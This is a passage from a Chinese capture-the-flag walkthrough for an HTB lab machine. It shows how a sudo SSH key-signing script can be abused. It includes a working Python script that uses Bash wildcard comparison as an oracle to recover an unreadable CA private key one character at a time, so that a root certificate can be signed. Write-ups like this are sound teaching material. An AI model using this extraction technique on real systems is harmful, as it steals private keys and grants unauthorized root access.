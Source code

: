 -I：官方解释是身份标识，填用户名应该就可以  
  
-V：时效多长  
  
-n: 登录别名，类似**zzinter_temp**，这里要求**root**，应该使用**root_user**。  
  
             
  
代码中对签名文件进行了限制，不允许是/etc/ssh/ca-it文件。还是那句话，**看似限制，实则提醒**。  
  
当前用户对/etc/ssh/ca-it没有访问权限，  
这里要使用Bash通配符滥用。  
  
简述：文件a内容为abcd,我们使用文件b与文件a比对，如果内容一样则提示。  
通配符滥用就是，当文件b的内容为a*时，也会提示。  
  
  
**靶机中：**  
  
在**/tmp**文件夹新建**test-ca**文件，创建密钥对：  
```
ssh-keygen -t rsa -C root@ssg.htb -f rootuser
```  
  
         
  
新建**qcat.py**文件，写入如下代码并执行：  
```
import os

header = "-----BEGIN OPENSSH PRIVATE KEY-----"
footer = "-----END OPENSSH PRIVATE KEY-----"
ba64chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="    
key = []
line= 0

while True:
    for char in ba64chars:
        testKey = header + "\n" + "".join(key) + char + "*"
        with open('/tmp/test-ca', 'w', encoding='utf-8') as f:
            f.write(testKey)
        orderResult = os.popen("sudo /opt/sign_key.sh /tmp/test-ca rootuser.pub root root_user 05").readlines()

        if "Error: Use API for signing with this CA." in str(orderResult):
            key.append(char)
            if len(key) > 0 and (len(key) - line) % 70 == 0:
                line = line + 1
                key.append("\n")
            break
    else:
        break

testKey = header + "\n" + "".join(key) + “\n” + footer
with open('/tmp/test-ca','w') as f:
    f.write(testKey)
```  
  